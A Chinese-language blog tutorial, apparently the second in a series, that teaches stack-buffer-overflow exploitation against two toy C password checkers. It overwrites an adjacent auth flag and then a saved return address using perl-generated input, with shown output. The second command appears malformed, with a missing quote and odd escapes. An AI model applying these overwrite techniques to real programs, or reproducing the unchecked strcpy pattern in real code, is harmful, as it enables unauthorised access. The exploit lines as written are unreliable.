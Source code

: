 [Bug Hunter]关于stack overflow Lesson II
=======================================

### 回顾
&emsp;&emsp;上一篇我们已经简单了解了stackoverflow的简单原理，以及怎么利用stackoverflow去控制程序的逻辑，本节Lesson更加深入的探讨一下stackoverflow的进一步利用点。这一个系列是根据博主本人的学习进度写成，所以速度可能偏慢，因为我也有活要干，同时我也是个新手。


### 例子一
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
        int auth_flag = 0;
        char password_buffer[16];

        strcpy(password_buffer, password);

        if(strcmp(password_buffer, "brillig") == 0)
                auth_flag = 1;
        if(strcmp(password_buffer, "outgrabe") == 0)
                auth_flag = 1;

        return auth_flag;
}

int main(int argc, char *argv[]) {
        if(argc < 2) {
                printf("Usage: %s <password>\n", argv[0]);
                exit(0);
        }
        if(check_authentication(argv[1])) {
                printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
                printf("      Access Granted.\n");
                printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
        } else {
                printf("\nAccess Denied.\n");
   }
}
```

&emsp;&emsp;本例是一个简单的认证判断，如果输入参数是`brillig`或者`outgrabe`，那么输出`Access Granted.`。显然这里也有一个stackoverflow的bug，在`strcpy`函数这里。在Stack上，`auth_flag`先入栈，`password_buffer`后入栈，所以`auth_flag`的地址比`password_buffer`高，这样就可以覆盖`auth_flag`的值。`gcc example.c -o example -g`，生成可执行程序。然后`gdb -tui example`获取一些必要的信息如下。
<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/variable_distance.png" /><br>


&emsp;&emsp;算得两地址之差为28，所以我们只需要复写完这28个字节再多复写4个字节就可以了。先看正常情况，`./example $(perl -e "print 'A' x 28")`，结果如下：

> Access Denied.

&emsp;&emsp;再看看复写stack情况，`./example $(perl -e "print 'A' x 32")`，结果如下：

> -=-=-=-=-=-=-=-=-=-=-=-=-=-
>      Access Granted.
> -=-=-=-=-=-=-=-=-=-=-=-=-=-
> Segmentation fault

&emsp;&emsp;虽然栈被写坏了，但是目的达成。

### 例子二
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_authentication(char *password) {
        char password_buffer[16];
        int auth_flag = 0;

        strcpy(password_buffer, password);

        if(strcmp(password_buffer, "brillig") == 0)
                auth_flag = 1;
        if(strcmp(password_buffer, "outgrabe") == 0)
                auth_flag = 1;

        return auth_flag;
}

int main(int argc, char *argv[]) {
        if(argc < 2) {
                printf("Usage: %s <password>\n", argv[0]);
                exit(0);
        }
        if(check_authentication(argv[1])) {
                printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
                printf("      Access Granted.\n");
                printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
        } else {
                printf("\nAccess Denied.\n");
   }
}
```
&emsp;&emsp;与例子一的唯一差别就是调换了`password_buffer`和`auth_flag`的位置，那么`auth_flag`的地址比`password_buffer`要低，这样就没法复写了，那么我们该怎么办呢？
&emsp;&emsp;还记得Lesson I里我讲到的Stack的本质原理吗？一个函数调用的时候先是压栈，后`leave`弹栈，然后再`ret`返回，栈上其实保存着函数返回时的地址，这是地址会压入EIP/RIP，让我们直接`gdb`看一下就明白了。先`gcc example2.c -o example2 -g`，然后`gdb -tui example2 -q`。

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/main_assembly.png" /><br>
&emsp;&emsp;这里我们先注意一下`call   0x40063d <check_authentication>`之后会执行一个判断，就是调用`check_authentication`返回值的判断，我们跳过这个判断，直接执行`0x4006ef`的指令就可以输出`Access Granted`。那现在我们看看栈上保存的返回地址是多少，如下：

<img src="https://github.com/linghuazaii/blog/blob/master/image/stackoverflow/ret_addr.png" /><br>
&emsp;&emsp;返回地址是`0x4006eb`，也就是调用call之后的下一条指令，我们直接复写返回地址为`0x4006ef`，由于我用的是x86-64的机器，所以是little endian，所以地址得倒着写，执行`./example2 $(perl -e "print '\ef\06\40\00' x 3)`，结果如下：

> -=-=-=-=-=-=-=-=-=-=-=-=-=-
>       Access Granted.
> -=-=-=-=-=-=-=-=-=-=-=-=-=-
> Segmentation fault


### 结语
&emsp;&emsp;本节提到的一点就是复写函数的返回地址，比复写变量的值更具有杀伤力，是不是呢？
&emsp;&emsp;没点关注的点一波关注，谢谢！Have Fun！See You！
